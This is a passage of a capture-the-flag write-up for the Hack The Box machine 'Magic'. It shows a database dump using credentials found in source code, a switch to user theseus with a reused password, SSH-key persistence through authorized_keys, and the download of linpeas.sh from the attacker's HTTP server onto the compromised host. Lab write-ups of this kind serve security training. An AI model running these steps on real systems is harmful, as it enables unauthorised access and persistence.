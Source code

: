 The credentials tells me there is a user called **theseus** (this user also has a folder under the /home/ directory), with the password **iamkingtheseus** and the mysql server is hosted at **localhost**. 

Trying to switch user with *su* and the found password just returns an authentication error.

By using mysqldump with these credentials i will be able to see if there is more credentials in the database.

~~~
mysqldump -utheseus -p --all-databases
Pasword: iamkingtheseus
~~~

![Database dump](https://jackhack.se/assets/images/magic/dbdump.png)
{: .full}

The database dump only contains one user, with a similar password as the user **theseus** so im trying to *su* with this password instead and succeed. 

I grabbed the user flag and then quickly generated a ssh key and added it to theseus's authorized_keys so i could get rid of my crappy unstable shell.

~~~
www-data@ubuntu:/var/www/Magic$ su theseus 
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ cd /home/theseus
cd /home/theseus
theseus@ubuntu:~$ cat user.txt
cat user.txt
1261d8caf3a1caed34e7fba22b2f8553
theseus@ubuntu:~$


┌──(kali@kali)-[~/boxes/magic]
└─$ ssh theseus@magic.htb -i theseus_magic
~~~
{: .language-bash}


# Root

Just a quick lookaround as the user doesn't give me anything so on my kali box i set up a python http server and on the compromised box i download the script **linPEAS.sh** using wget.

~~~
┌──(kali@kali)-[~/boxes/magic]
└─$cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .

┌──(kali@kali)-[~/boxes/magic]
└─$ sudo python3 -m http.server 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.185 - - [22/Aug/2020 15:55:21] "GET /linpeas.sh HTTP/1.1" 200 -
~~~
{: .language-bash}
